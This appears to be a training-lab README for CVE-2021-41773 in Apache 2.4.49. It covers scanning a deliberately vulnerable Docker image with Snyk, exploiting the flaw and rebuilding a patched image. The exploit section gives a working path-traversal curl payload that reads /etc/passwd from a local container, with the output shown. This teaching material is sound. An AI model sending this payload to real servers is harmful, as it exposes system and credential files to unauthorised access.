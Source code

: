 # CVE-2021-41773

CVE-2021-41773 is a CVE within the Apache HTTP Server, specifically version 2.4.49. 

> A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions. The fix in Apache HTTP Server 2.4.50 was found to be incomplete, see CVE-2021-42013.

[National Institute of Standards and Technology](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)


## CVE Lab

This lab contains a vulnerable Dockerfile, which includes the Apache 2.4.49 package and its associated configuratons which this CVE required to be installed.

We can


## Scanning with Snyk 
***This step is already done on the Playground instances***

To use Snyk, you must first:

* Sign up for Snyk
* Install the CLI agent using Node (must have NPM installed) `npm install -g snyk`
* Authenticate with snyk `snyk auth "<API KEY>"` (this is already handled on the playground instances)

You can now start to scan local images using Snyk. Snyk will analyise the dependencies installed in the image, and scan them against its backend database of vulnerabilities.

Snyk is already installed on the Playground instances, so we can skip this step.


## Building and Scanning Vulnerable IMage

There are two directories within the Docker directory, both containing a Dockerfile and a set of dependencies.

* vulnerable
* safe.

To build the vulnerable image, run the following command:

```
$ cd workdir/dpg2021publicnov/snyk/docker
$ bash build.sh
```

This will create a Docker image using the Dockerfile located in the `vulnerable` directory, and tag it `apache-vulnerable`.

Now you have built the vulnerable Docker image, it's time to scan this using Snyk. To scan a Docker image, run the following:

```
$ snyk container test apache-vulnerable


Testing apache-vulnerable...


✗ Low severity vulnerability found in apache2/apache2-bin
  Description: Cross-site Scripting (XSS)
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-391822
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...

✗ High severity vulnerability found in apache2/apache2-bin
  Description: Directory Traversal
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-1728102
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...
  Fixed in: 2.4.50-1

✗ High severity vulnerability found in apache2/apache2-bin
  Description: NULL Pointer Dereference
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-1728105
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...
  Fixed in: 2.4.50-1

✗ Critical severity vulnerability found in apache2/apache2-bin
  Description: Directory Traversal
  Info: https://snyk.io/vuln/SNYK-DEBIANUNSTABLE-APACHE2-1729585
  Introduced through: apache2/apache2-bin@2.4.49-4, apache2@2.4.49-4, apache2/apache2-data@2.4.49-4, apache2/apache2-utils@2.4.49-4
  From: apache2/apache2-bin@2.4.49-4
  From: apache2@2.4.49-4 > apache2/apache2-bin@2.4.49-4
  From: apache2/apache2-data@2.4.49-4
  and 4 more...
  Fixed in: 2.4.51-1



Organization:      ecsdcmhrpr
Package manager:   deb
Project name:      docker-image|apache-vulnerable
Docker image:      apache-vulnerable
Platform:          linux/amd64
Licenses:          enabled

Tested 146 dependencies for known issues, found 55 issues.

Pro tip: use `--file` option to get base image remediation advice.
Example: $ snyk test --docker apache-vulnerable --file=path/to/Dockerfile

To remove this message in the future, please run `snyk config set disableSuggestions=true`

```


## Exploit

We've shown how to detect the vulnerable package, but lets now show you how to exploit it!

First up, start up a new container from the created image

```bash
$ docker run -d -p 9000:80  apache-vulnerable
```

This will start a new container, using the apache-vulnerable image, mapping the port 9000 to the port run on the apache server within the container. The `-d` flag means it will run in the background.

Lets test we can connect to the server:

```bash
curl localhost:9000
```


Now, to run the exploit:

```
curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

[playground@worker3-snyk ~]$ curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

This will exploit a flaw in the directory traversal code of the Apache HTTPD server. IN this case, we will use this exploit to read the contents of the "/etc/passwd" file.

To actually retrieve the flag, we will change the command to print the contents of /etc/flag.txt:

```
curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/flag.txt"
```


## Making it Safe

Now we've demonstrated the exploit and how to scan for the critical vulnerabilities used to run the exploit, lets go and make it safe.

Included in the `docker` directory is a directory called `safe` which includes patched versions of the apache dependencies.

Let's run the following command to build the safe image (apache-safe):

```
bash build_safe.sh
```

You can create a new container using this image (remember to stop the first one by running docker kill <ID>)

```bash
$ docker run -d -p 9000:80  apache-safe
```

Run the exploit:

```
curl -s --path-as-is "http://localhost:9000/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/flag.txt"
```

And to scan the new image to confirm the vulnerability is no longer present:

```
$ snyk container test apache-safe
```
